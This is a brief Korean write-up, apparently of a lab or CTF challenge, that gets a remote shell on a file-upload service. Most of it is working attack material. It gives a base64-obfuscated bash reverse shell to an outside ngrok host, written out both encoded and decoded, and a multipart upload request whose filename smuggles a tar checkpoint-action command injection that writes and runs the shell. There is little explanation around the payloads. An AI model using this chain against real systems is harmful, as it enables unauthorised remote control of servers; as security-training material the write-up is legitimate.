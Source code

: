 
### 목표 : 공격 서버와 TCP 연결

1. `/bin/sh`에서 `/`, '..'제외한 명령어 모두 사용 가능
2. 비어있는 파일만 업로드 가능

---

##### 파일 입출력, 인코딩, 파이프라인, 리다이렉트 ...

---

`echo "YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuanAubmdyb2suaW8vMTYxNDIgMD4mMSc="| 
base64 --decode > 
shell.sh ; 
bash shell.sh`

---

```sh
echo "YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuanAubmdyb2suaW8vMTYxNDIgMD4mMSc=" | base64 --decode

bash -c 'sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/16142 0>&1'
```

![alt text](image-16.png)
![alt text](image-17.png)

---

```
POST /api/upload HTTP/1.1
Host: localhost:40001
Content-Length: 203

...
중간 헤더들 생략
...

------WebKitFormBoundarybsek0dcA7jBFy7df
Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=echo
'YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuanAubmdyb2suaW8vMTYxNDIgMD4mMSc='
| base64 --decode > shell.sh;bash shell.sh"
Content-Type: application/octet-stream



------WebKitFormBoundarybsek0dcA7jBFy7df--
```

---
